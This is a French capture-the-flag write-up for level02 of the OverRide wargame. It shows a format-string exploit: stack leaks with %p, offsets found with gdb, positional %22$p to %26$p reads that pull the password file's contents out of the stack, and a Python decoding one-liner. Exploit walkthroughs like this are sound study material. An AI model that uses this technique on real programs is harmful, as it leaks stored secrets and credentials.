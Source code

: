 
En decompilant le programe on ce rend compte qu'un __printf__ est exploitable.
Aussi pour ce rend compte que le flag est set dans un variable en amont du code.

```c
stream = fopen("/home/users/level03/.pass", "r");
if ( !stream ){
	fwrite("ERROR: failed to open password file\n", 1uLL, 0x24uLL, stderr);
	exit(1);
}
v9 = fread(ptr, 1uLL, 0x29uLL, stream);
ptr[strcspn(ptr, "\n")] = 0;
```

```c
if ( strncmp(ptr, s2, 0x29uLL) ){
	printf(s);
	puts(" does not have access!");
	exit(1);
}
```

en printant cette ligne dans dans la premiere input du programe:

> AAAAAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

On obtient:
> AAAAAAAA 0x7fffffffe4f0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0xfeff00 ==0x4141414141414141== 0x2520702520702520 0x2070252070252070 does not have access!

on trouve un offset de __28__ (position de la chaine "AAAAAAAA" dans les adresses)

en utilisant __gdb__, on trouve dans la fonction main la position dans la stack de la chaine print par __printf__ et la position de la chaine contenant le __flag__.

			flag -> 0x0000000000400a51 <+573>:	lea    rax,[rbp-0xa0]
	chaine print -> 0x0000000000400a71 <+605>:	lea    rdx,[rbp-0x70]
	0xa0 - 0x70 = 48

grace au calcule : 
> [offset] - ([distance] / [nb octets print par %p])

soit :
> 28 - (48 / 8) = 22

On trouve le decalage pour recuperer la premiere partie du flag (les 8 premier charactere).
Il suffit donc de recupere : 40 / 8 = 5 partie.

Du coup voici la ligne a executer:

 > \%22\$p \%23\$p \%24\$p \%25\$p \%26\$p

On obtient donc ceci :

```bash

level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password: 
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```

En decodant les 5 parties on obtient le flag.

> python -c "print ''.join([v.decode('hex')[::-1] for v in ['756e505234376848', '45414a3561733951', '377a7143574e6758', '354a35686e475873', '48336750664b394d']])"